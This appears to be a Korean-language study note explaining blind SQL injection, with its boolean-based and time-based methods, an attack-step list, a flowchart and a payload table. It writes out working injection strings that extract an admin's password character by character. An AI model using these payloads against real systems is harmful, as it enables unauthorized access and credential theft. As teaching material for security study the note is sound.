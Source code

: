 # 블라인드 SQL 인젝션

`Blind SQL Injection`은 공격자가 **쿼리의 직접적인 결과나 오류 메시지를 받을 수 없는 상황**에서, 응용 프로그램의 응답 차이를 기반으로 **데이터베이스 정보를 유추하는 공격 방식**이다.  
일반적인 SQL Injection과는 달리 명확한 피드백이 없기 때문에 더 느리고 반복적인 작업이 필요하지만, **치명적인 정보 탈취가 가능한 정교한 인젝션 기법**이다.

애플리케이션이 오류를 숨기거나 사용자에게 쿼리 결과를 직접적으로 보여주지 않도록 처리하더라도, 응답 시간이나 콘텐츠의 미묘한 차이를 분석함으로써 공격자는 내부 데이터를 유추할 수 있다.

---

## 주요 기법

| 기법              | 설명                                                                 | 작동 방식                                                   |
|------------------|----------------------------------------------------------------------|------------------------------------------------------------|
| **불리언 기반**   | 조건이 `참`일 경우와 `거짓`일 경우 애플리케이션의 응답 차이를 비교   | 페이지 콘텐츠의 유무, 메시지 유무, 리디렉션 차이 등으로 판별 |
| **시간 기반**     | 조건이 `참`일 때 의도적으로 **응답 지연**을 발생시킴                 | 응답 시간 지연 유무를 통해 조건 만족 여부를 판단            |

- **불리언 기반 Blind SQLi**
    - 조건이 참일 때와 거짓일 때의 응답 메시지 또는 출력 결과의 차이를 이용한다.
    - 예시:  
      ```sql
      ' AND (SELECT COUNT(*) FROM users WHERE username='admin') > 0 --
      ```

- **시간 기반 Blind SQLi**
    - `SLEEP()` 함수 등을 사용하여 조건이 참일 때만 **지연**시키는 방식이다.
    - 예시:
      ```sql
      ' AND IF((SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a', SLEEP(5), 0) --
      ```

---

## 공격 절차 및 예시 흐름

1. **주입 지점 탐지**
2. **참/거짓 조건 확인**
3. **데이터 열거**
4. **문자 단위 추출**
5. **자동화 도구 활용**

---

## Boolean 기반 추출 순서도

```mermaid
graph TD
    A[입력값 변조 후 응답 변화 확인] --> B{응답이 다름?}
    B -- 예 --> C[조건: 1=1, 1=2로 테스트]
    C --> D{차이 확인됨?}
    D -- 예 --> E[문자 추출용 SUBSTRING(), ASCII() 사용]
    E --> F[한 글자씩 조건 비교]
    F --> G[데이터 조각 완성]
    D -- 아니오 --> H[응답 방식 변경 필요]
    B -- 아니오 --> I[다른 파라미터 또는 위치 탐색]
```

---

## 자주 쓰이는 Boolean 기반 페이로드 예시

| 목적                         | 페이로드 예시 |
|------------------------------|----------------|
| 참 조건 확인                 | `' OR 1=1 --` |
| 거짓 조건 확인               | `' OR 1=2 --` |
| 특정 유저 존재 확인          | `' AND (SELECT COUNT(*) FROM users WHERE username='admin') > 0 --` |
| 비밀번호 한 글자 추출 (a)    | `' AND SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)='a' --` |
| 비밀번호 첫 글자 ASCII 확인  | `' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))=97 --` |

---

## 정리

> `Blind SQL Injection`은 출력 결과 없이도 공격이 가능한 은밀하고 효과적인 인젝션 기법이다.

> 응답 변화 또는 시간 지연을 기반으로 조건의 참/거짓을 유추하여 **데이터를 하나씩 추출**해 낼 수 있으며, **자동화 도구의 활용과 수동 분석의 병행이 핵심**이다.

> 복잡하고 방어가 잘 된 시스템일수록 이 방식은 더욱 유용하게 사용될 수 있으며, 웹 보안의 핵심 위협 요소 중 하나이다.